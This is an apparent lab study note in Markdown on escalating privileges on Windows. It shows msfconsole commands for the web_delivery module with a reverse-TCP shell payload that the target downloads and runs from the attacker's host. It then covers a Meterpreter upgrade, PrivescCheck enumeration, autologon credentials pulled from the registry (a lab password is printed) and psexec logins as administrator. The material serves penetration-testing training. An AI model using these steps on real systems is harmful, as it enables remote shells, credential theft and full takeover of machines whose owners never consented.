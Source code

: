 # Windows: Identifying Privilege Escalation Vulnerabilities
> The assumption here is that you have gained access to a Windows system, but you do not have elevated privileges (you do not have NT AUTHORITY or SYSTEM). You have gained access as a normal user or via a service account.

## Contents
- [Intro](#intro)
  - [Identifying PrivEsc Vulnerabilities](#identifying-privesc-vulnerabilities)
  - [Script: PrivescCheck](#script-privesccheck)
- [Techniques & Tools](#techniques--tools)
  - [MetaSploit Module: web_delivery](#metasploit-module-web_delivery)
  - [Migrate to Meterpreter](#migrate-to-meterpreter)
  - [Execute PrivescCheck](#execute-privesccheck)
  - [Results](results)
  - [Exploits](exploits)

## Intro

### Identifying PrivEsc Vulnerabilities
- In order to elevate your privileges in Windows, you must first identify privilege escalation vulnerabilities on the target system.
- This process will differ greatly based on the type of target you gain access to.
  - Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.
- This process can be quite tedious and time consuming.
  - As a result it is recommended to automate this process of identifying privilege escalation vulnerabilities.
  - This can be done through the use of various automation scripts. One of the best is PrivescCheck...

### Script: PrivescCheck
- [PrivescCheck](https://github.com/itm4n/PrivescCheck): this script aims to enumerate common Windows configuration issues that can be leveraged for local privilege esclation.
  - It also gathers various information that might be useful for exploitation and/or post-exploitation.
- It also gathers various information that might be useful for exploitation and/or post-exploitation.
  - Description: This script aims to identify Local Privilege Escalation (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. It can also gather useful information for some exploitation and post-exploitation tasks.

## Techniques & Tools
> The following is from a lab. It should give you the general contect and process of using the technique with the tools.

### MetaSploit Module: [web_delivery](https://www.offsec.com/metasploit-unleashed/web-delivery/)
> This is a module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.
>
> This module spins up a web server that hosts a payload (based on the target operating system). When you hit run/exploit, it generates some PowerShell code. You copy that PowerShell code and execute it on the target machine. When you run that code on the target, it will download the payload and execute the exploit.
```
> use exploit/multi/script/web_delivery
> show info  # To see what it does
> set target PSH\ (Binary)
> set payload windows/shell/reverse_tcp
> set PSH-EncodedCommand false  # we do not want the ps script encoded
> set LHOST [attack ip or eth#]
> exploit
```
- Copy all the code it spits out.
  - Go to the target system and open a command prompt session (cmd.exe)
  - Right-click in the cmd window and that will paste in your script.
  - Hit ENTER
- Back into your Kali attack machine. You should have a command shell.
- We have access via the user "student."
  - Confirm that with `whoami`
  - Verify the hostname with `hostname`

### Migrate to Meterpreter
- Migrate your command shell you just obtained to a meterpreter session.
```
ctrl + z   # to background the session; still in msfconsole...
> search shell_to
> use post/multi/manage/shell_to_meterpreter
> set LHOST [attack ip]
> set SESSION [meterpreter session #]
> show advanced
  # We need to change the WIN_TRANSFER option
  # Instead of the transfer method being PowerShell, we want VisualBasic (VBS)
> set WIN_TRANSFER VBS
> run/exploit
```
- Go into your meterpreter session. Migrate to a 64-bit process (explorer.exe)
- cd over to the PrivescCheck subdir...
- Open a command shell session in this subdir: `> shell`

### Execute PrivescCheck
- Head over to the [PrivescCheck GitHub repo](https://github.com/itm4n/PrivescCheck) and read how to use it. Copy it.
- You want to copy that entire script and paste it into the shell prompt you just got from meterpreter.
- ENTER to execute it.
- Once it is finished, it will give you a summary at the bottom.
  - Scroll back up to the top and analyze the results...
  - You get a list of the groups on the system
  - As you work through the list, under each is an indicator if there is a vulnerability or not...

### Results
> Continuing with the lab above. PrivescCheck spits out test results; some will be "Not vulnerable" but others may shows positive results.

#### Example: Not Vulnerable
![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/c5966326-8dbe-4afc-934a-7a4ad21dc4c6)

#### Example: Vulnerable
![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/50628214-9c29-4728-b04c-545d5984bdae)

#### The WinLogon Feature
- This is a feature in Windows that allows you to automatically log on
- The creds for the automatic logon are typically stored in the Registry
- You should always encrypt these credentials stored in the Registry
- In our case, this was not done. Therefore, we have authentication credentials:
  - Username: administrator
  - Password: hello_123321
 
**_How can we use these admin creds to upgrade our user-level account access? _**

### Exploits

#### PSExec (SMB)
- Every version of Windows will have SMB running.
  - That means the system has the ability to authenticate users via SMB
  - PSExec authenticates on a system via SMB
- Use the Python implementation of the PSExec utility to login to the target system and obtain an elevated session.
  - On your Kali attack machine, get a new term window (tmux, new tab, whatever).
  - Command:`psexec.py  [username]@[target ip]`
  - You'll be prompted to enter the password
- That should get you a command shell session with admin rights (b/c you logged in as the administrator)
  - `whoami` : you should have nt authority/system
  - `net user` : list out all the users on the system
  - `whoami /priv` : you should see all the privs associated with admin

#### Metasploit Module: psexec 
- In the MSF: terminate your channel... background your meterpreter...
```
> search psexec
> use /exploit/windows/smb/psexec
  # Descr:  Microsoft Windows Authenticated User Code Execution
  # In order to use this module you need credentials
> set LPORT [####]
  # You may need to choose a new LPORT to avoid conflicts with the two existing sessions.
> set... RHOSTS... SMBUser... SMBPass...
> exploit
```
- You should get an elevated meterpreter session. Confirm with `sysinfo` and `getuid`
